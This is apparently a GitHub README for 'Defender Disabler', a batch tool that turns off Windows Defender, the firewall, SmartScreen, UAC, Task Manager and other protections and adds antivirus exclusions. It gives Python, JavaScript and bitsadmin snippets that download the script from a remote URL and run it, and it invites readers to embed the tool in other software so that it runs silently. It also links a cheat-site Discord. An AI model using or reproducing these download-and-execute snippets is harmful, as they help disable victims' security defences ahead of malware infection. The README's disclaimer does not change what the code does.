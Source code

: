 <h1 align="center">
  Defender Disabler ➰
</h1>

<p align="center">
  Destroy Windows Defender so hard that it doesn't even know it exists anymore
</p>

<p align="center">
  <kbd>
    <img src="https://raw.githubusercontent.com/Rdimo/images/master/Defender-Disabler/defender-disabler.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Defender-disabler?style=flat-square"/>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Defender-disabler?style=flat-square"/>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Defender-disabler&metric=ncloc"/>
  <img src="https://img.shields.io/github/stars/Rdimo/Defender-disabler?color=5ac18e&label=Stars&style=flat-square"/>
  <img src="https://img.shields.io/github/forks/Rdimo/Defender-disabler?color=5ac18e&label=Forks&style=flat-square"/>
</p>

<h2 align="center">
  Defender-disabler was made by

Love ❌ code ✅

</h2>

---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://cheataway.com/invite)
- [🎉・Using defender-disabler](#setup)
- [🌱・Inspiration/Credits](#credits)
- [❕・Warning](#warn)

## <a id="features"></a>🔰 〢 Features

```
> Disables Windows Defender completely
> Disables Automatic Sample Submission and Quickscan
> Disables Windows FireWall, Smart Screen, and other security features
> Disables important security settings such as Real-time and Ransomware protection, AntiSpyware, BehaviorMonitoring,  etc..
> Adds .exe and .bat files as exclusions and the startup folder as exclusions
> Disables UAC (Reboot Required)
> Disables TaskManager, Registrytools, cmd, run
> + More!
```

## <p align="left"><img src="https://raw.githubusercontent.com/Rdimo/images/master/Defender-Disabler/Screenshot%202021-10-14%20162401.png">

---

## <a id="setup"></a> 📁 〢 Using defender-disabler

First off you need to figure out if you want to use this program alone or use it in some other software that downloads and runs it.

1. Compiling the program
   There are multiple ways of compiling a batch file,

   - [Converting Batch file to Exe via IExpress](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_file_to_EXE_via_IExpress)
     - [Converting Batch Scripts to Exe with Bat To Exe Converter](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_Scripts_to_EXE_with_Bat_To_Exe_Converter)
       - [Converting Batch Scripts to Exe via Advanced BAT to EXE Converter](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_Scripts_to_EXE_via_Advanced_BAT_to_EXE_Converter)
<br>
2. Implementing it in your software
   Depending on what language you're using, it will require different ways of implementing it.
  
   Here are some examples:

- [Python](https://www.python.org/):

```python
import requests, os
_file = requests.get('https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat')

with open('demo.bat', 'w') as f:
    f.write(_file.text)

os.startfile('demo.bat')
```

- [Javascript](https://nodejs.org/en/):

```javascript
const { exec } = require('child_process');
const fs = require('fs');
const axios = require('axios');

axios.get('https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat', {
    responseType: 'text',
  }).then((response) => {
    fs.writeFileSync('disabler.bat', response.data, { flag: 'a' }, (err) => {});
  });
exec('demo.bat');
```

- [Batch](https://en.wikipedia.org/wiki/Batch_file):

```batch
bitsadmin /transfer Packages /download /priority foreground https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat "demo.bat"
start demo.bat
```

## <a id="warn"></a> ❕ 〢 Warning 
  Running this program will completely disable Windows Defender. This program was not made to be used for any malicious purposes.
  If you now accidently ran this program on your main pc instead of a vm, reverting the changes will be hard but most of them can be fixed by runnig [enabler.bat](https://github.com/Rdimo/Defender-disabler/blob/main/enabler.bat) as admin

## <a id="credits"></a> 🌱 〢 Inspiration/Credits
  Most of the code is taken from [swagkarna](https://github.com/swagkarna) and his [Defender-disabler](https://github.com/swagkarna/Defeat-Defender-V1.2)
  This one is just more smoother, improved, more user friendly and has more features.


By using Defender Disabler, you agree that you hold responsibility and accountability of any consequences caused by your actions
